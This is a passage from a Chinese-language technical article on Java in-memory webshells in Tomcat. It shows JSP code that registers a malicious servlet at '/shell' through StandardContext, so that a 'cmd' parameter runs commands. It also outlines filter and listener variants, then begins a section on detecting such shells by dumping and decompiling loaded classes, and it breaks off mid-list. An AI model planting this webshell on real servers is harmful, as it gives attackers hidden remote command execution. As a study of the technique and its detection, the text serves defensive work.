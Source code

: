 ```
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };

    %>
<%
    // 获取StandardContext
    org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =(org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    StandardContext standardCtx = (StandardContext)webappClassLoaderBase.getResources().getContext();

    // 用Wrapper对其进行封装
    org.apache.catalina.Wrapper newWrapper = standardCtx.createWrapper();
    newWrapper.setName("jweny");
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());

    // 添加封装后的恶意Wrapper到StandardContext的children当中
    standardCtx.addChild(newWrapper);

    // 添加ServletMapping将访问的URL和Servlet进行绑定
    standardCtx.addServletMapping("/shell","jweny");
%>

```

执行上述代码后，访问当前应用的 / shell 路径，加上 cmd 参数就可以命令执行了。使用新增 servlet 的方式就需要绑定指定的 URL。如果我们想要更加隐蔽，做到内存马与 URL 无关，无论这个 url 是原生 servlet 还是某个 struts action，甚至无论这个 url 是否真的存在，只要我们的请求传递给 tomcat，tomcat 就能相应我们的指令，那就得通过注入新的或修改已有的 filter 或者 listener 的方式来实现了。比如早期 rebeyond 师傅开发的 memshell，就是通过修改 org.apache.catalina.core.ApplicationFilterChain 类的 internalDoFilter 方法来实现的，后期冰蝎最新版本的内存马为了实现更好的兼容性，选择 hook javax.servlet.http.HttpServlet#service 函数，在 weblogic 选择 hook weblogic.servlet.internal.ServletStubImpl#execute 函数。

四、内存马检测与排查
----------

### 4.1 源码检测

在 java 中，只有被 JVM 加载后的类才能被调用，或者在需要时通过反射通知 JVM 加载。所以特征都在内存中，表现形式为被加载的 class。需要通过某种方法获取到 JVM 的运行时内存中已加载的类， Java 本身提供了 Instrumentation 类来实现运行时注入代码并执行，因此产生一个检测思路：注入 jar 包 -> dump 已加载 class 字节码 -> 反编译成 java 代码 -> 源码 webshell 检测。

这样检测比较消耗性能，我们可以缩小需要进行源码检测的类的范围，通过如下的筛选条件组合使用筛选类进行检测：

①新增的或修改的；
